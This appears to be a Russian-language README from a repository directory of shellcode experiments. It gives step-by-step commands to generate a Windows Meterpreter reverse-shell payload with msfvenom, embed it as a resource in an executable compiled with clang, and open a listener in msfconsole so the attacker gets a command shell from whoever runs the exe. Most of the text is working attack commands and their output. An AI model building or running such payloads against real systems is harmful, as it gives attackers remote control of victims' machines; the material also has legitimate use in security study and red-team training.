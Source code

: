 Шеллкоды
========

В данной директории демонстрируются примеры и опыты с использованием шеллкодов.

Самый простой способ сгенерировать шеллкод - использовать `msfvenom`:

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.187.128 LPORT=1337 > shellcode.bin
```

Эта команда создает обратную оболочку (reverse shell). LHOST - IP-адрес 
атакующего, LPORT - порт машины атакующего, по которому будет установлено 
соединение.

Полученный двоичный файл с шеллкодом можно встроить в exe-файл при помощи 
[ресурсного файла](https://learn.microsoft.com/en-us/windows/win32/menurc/about-resource-files).

Создадим файл `resources.rc`. Его структура:

```rc
Name Type Filename
```

В нашем случае выйдет что-то вроде:

```rc
Payload PAYLOAD "shellcode.bin"
```

RC-файл скомпилируем в .res при помощи утилиты из набора разработчика Windows 
`rc.exe` (доступна в Developer PowerShell/Command Prompt for VS 20XX):

```powershell
rc.exe /r .\resources.rc
```

На выходе получим файл `resources.res`.

Теперь в коде самой программы нам необходимо найти ресурс в нашем бинаре, 
получить его размер, загрузить его и скопировать в выделенный участок памяти, 
после чего его можно исполнить (см. код `shellinside.c`).

Компиляция при помощи clang:

```powershell
clang shellinside.c resources.res -o shellinside.exe
```

На машине атакующего слушаем входящие соединения:

```bash
$ msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <LHOST>
set lport <LPORT>
run
```

Здесь LHOST, LPORT -  те же, что указывались при создании шеллкода.

После запуска скомпилиованного exe-файла с шеллкодом на машине атакующего 
открывается сессия:

```
[*] Meterpreter session 1 opened (X.X.X.X:1337 -> Y.Y.Y.Y:61867) at [...]
```

При наборе команды `shell` атакующий получает командную строку от имени 
пользователя, запустившего вредоносный exe-файл.


### Дополнительные материалы

* [ired.team - Loading and Executing Shellcode From PE Resources](https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources)

* [How to use a reverse shell in Metasploit](https://adfoster-r7.github.io/metasploit-framework/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html)

* [CPP / C++ - Embed Resources Into Executables](https://caiorss.github.io/C-Cpp-Notes/resources-executable.html)

* [Embedding binary data with Windows Resource Compiler](https://macoy.me/blog/programming/WindowsResourceCompiler)